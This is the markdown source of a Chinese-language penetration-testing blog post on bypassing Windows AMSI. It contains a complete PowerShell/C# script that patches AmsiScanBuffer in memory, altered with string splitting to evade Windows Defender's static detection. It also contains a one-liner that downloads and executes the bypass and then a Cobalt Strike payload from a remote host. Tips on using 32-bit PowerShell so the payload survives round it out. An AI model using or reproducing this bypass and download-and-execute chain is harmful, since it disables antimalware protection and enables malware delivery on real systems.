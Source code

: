 ```yaml
---
layout: post
title:  "渗透基础-Bypass AMSI"
date:   2019-05-07 17:48:13
categories: 内网渗透
permalink: /archivers/渗透基础-Bypass AMSI
---
```


##  0x00 简介

---

 这里简单记录一下 Bypass AMSI 的一个方法使用过程，方法来自 @Rasta Mouse。

参考链接：https://rastamouse.me/2018/12/amsiscanbuffer-bypass-part-4/

## 0x01 使用过程

---

###  1. 修改原始bypass AMSI 脚本

作者提供的脚本如下，当然直接使用会被杀软杀掉，我做了少许修改，只要绕过AV 静态检测就可以。

```
$Ref = (
"System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
"System.Runtime.InteropServices, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a"
)

$Source = @"
using System;
using System.Runtime.InteropServices;
namespace Bypass
{
    public class AMSI
    {
        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32")]
        public static extern IntPtr LoadLibrary(string name);
        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
        [DllImport("Kernel32.dll", EntryPoint = "RtlMoveMemory", SetLastError = false)]
        static extern void MoveMemory(IntPtr dest, IntPtr src, int size);
        public static int Disable()
        {
	    String amsi = "amsi";        //修改位置
	    amsi = amsi + ".dll";
            IntPtr TargetDLL = LoadLibrary(amsi);
            if (TargetDLL == IntPtr.Zero) { return 1; }
            IntPtr ASBPtr = GetProcAddress(TargetDLL, "Am" + "si" + "S" + "can" + "Buffer");   //修改位置
            if (ASBPtr == IntPtr.Zero) { return 1; }
            UIntPtr dwSize = (UIntPtr)5;
            uint Zero = 0;
            if (!VirtualProtect(ASBPtr, dwSize, 0x40, out Zero)) { return 1; }
            Byte[] Patch = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
IntPtr unmanagedPointer = Marshal.AllocHGlobal(6);
Marshal.Copy(Patch, 0, unmanagedPointer, 6);
MoveMemory(ASBPtr, unmanagedPointer, 6);
            return 0;
        }
    }
}
"@

Add-Type -ReferencedAssemblies $Ref -TypeDefinition $Source -Language CSharp
```



我主要修改了2个地方，"amsi.dll" 和 函数 "AmsiScanBuffer" 字符串上做了拼接，即可绕过Windows Defender.

### 2.载入测试

1.首先起一个Cobalt Strike listener.

2.在Cobalt Strike 起Web Drive，放入 修改后的ps1 脚本。

3.起一个powershell Web Drive .

4.在WIN10上使用powershell  远程下载执行payload。

```
c:\Windows\SysWOW64\windowspowershell\v1.0\powershell.exe -nop -c "iex(new-object net.webclient).downloadstring('http://IP/amsi');if([Bypass.AMSI]::Disable() -eq "0") { iex ((new-object net.webclient).downloadstring('http://IP/a'))}"
```

![](https://raw.githubusercontent.com/xxxxxyyyy/blog_image/master/2019-05/1.jpg)

![](https://raw.githubusercontent.com/xxxxxyyyy/blog_image/master/2019-05/2.jpg)

可以看到成功bypass amsi，并且payload执行成功，这里有个要注意的，必须要使用"c:\Windows\SysWOW64\windowspowershell\v1.0\powershell.exe" 32位的ps来执行，因为cobalt strike生成的payload是32位的，如果你使用64位ps去bypass amsi后，再运行payload，会新生成一个32bit的powershell子进程，并且有全新加载的amsi.dll。所以payload会被杀。
